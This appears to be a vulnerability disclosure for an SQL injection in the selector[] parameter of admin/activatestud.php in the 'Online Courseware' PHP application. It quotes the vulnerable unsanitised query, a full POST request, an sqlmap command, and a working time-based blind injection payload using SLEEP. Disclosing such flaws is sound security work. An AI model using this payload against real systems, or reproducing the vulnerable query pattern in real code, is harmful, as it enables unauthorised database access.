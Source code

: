 #### BUG_AUTHOR:LIU WEIYU
## Online Courseware - SQL Injection on (admin/activatestud.php selector[] parameter) 
### Vendor Homepage:
https://www.sourcecodester.com/php/4818/online-courseware-using-phpmysql.html 
### Version:V1.0
### Tested on: PHP, Apache, MySQL
### Affected Page:
admin/activatestud.php 

On this page, selector[] parameter is vulnerable to SQL Injection Attack 
### Source code(pcci/admin/activatestud.php):
```
$edittable=$_POST['selector'];
$N = count($edittable);
for($i=0; $i < $N; $i++)
{
	$result = mysqli_query($conn,"UPDATE student SET mem_status='active' where id='$edittable[$i]'");
}
```
### Proof of vulnerability(Verify using the sqlmap tool after logining ):
#### Request:
```
POST /onlinecourseware/pcci/admin/activatestud.php HTTP/1.1
Host: lcoalhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 127
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=sm0bljsdrcd3r9gqelkfs2sf73
Origin: http://lcoalhost
Referer: http://lcoalhost/onlinecourseware/pcci/admin/dstudent.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

bnm=activate&selector%5B%5D=1%
```
#### -> sqlmap -r 1.txt (above request package) --batch
### Output:
```
---
Parameter: selector[] (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: bnm=activate&selector[]=1%'+(SELECT 0x6c464368 WHERE 4674=4674 AND (SELECT 9726 FROM (SELECT(SLEEP(5)))sFWt))+'
---
```
